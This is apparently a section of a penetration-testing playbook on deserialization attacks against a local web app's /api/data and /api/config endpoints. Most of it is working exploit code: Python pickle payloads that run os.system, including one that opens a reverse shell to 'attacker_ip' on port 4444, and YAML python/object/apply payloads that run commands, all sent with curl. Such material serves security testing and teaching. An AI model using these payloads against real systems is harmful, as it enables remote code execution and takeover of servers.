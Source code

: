 ### Phase 7: Deserialization Attack Testing

#### 7.1 Python Pickle Deserialization RCE
**Target**: `/api/data` endpoint

Create malicious pickle payload:
```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return (os.system, ('echo "RCE successful via pickle" > /tmp/rce_test.txt',))

# Generate payload
payload = base64.b64encode(pickle.dumps(RCE())).decode()
print(f"Malicious payload: {payload}")
```

```bash
# Execute RCE payload
curl -X POST http://localhost:5000/api/data \
  -d "data=gASVNwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjChlY2hvICJSQ0Ugc3VjY2Vzc2Z1bCB2aWEgcGlja2xlIiA+IC90bXAvcmNlX3Rlc3QudHh0lIWUUpQu"

# Advanced RCE with reverse shell
python3 -c "
import pickle, base64, os
class RCE:
    def __reduce__(self):
        return (os.system, ('python3 -c \"import socket,subprocess;s=socket.socket();s.connect((\\\"attacker_ip\\\",4444));subprocess.call([\\\"/bin/bash\\\"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())\"',))
print(base64.b64encode(pickle.dumps(RCE())).decode())
"
```

#### 7.2 YAML Deserialization
**Target**: `/api/config` endpoint

```bash
# Basic YAML RCE payload
curl -X POST http://localhost:5000/api/config \
  -H "Content-Type: text/plain" \
  -d "!!python/object/apply:os.system ['echo YAML_RCE > /tmp/yaml_test.txt']"

# Complex YAML payload
curl -X POST http://localhost:5000/api/config \
  -H "Content-Type: text/plain" \
  -d "!!python/object/apply:subprocess.check_output [['whoami']]"
```
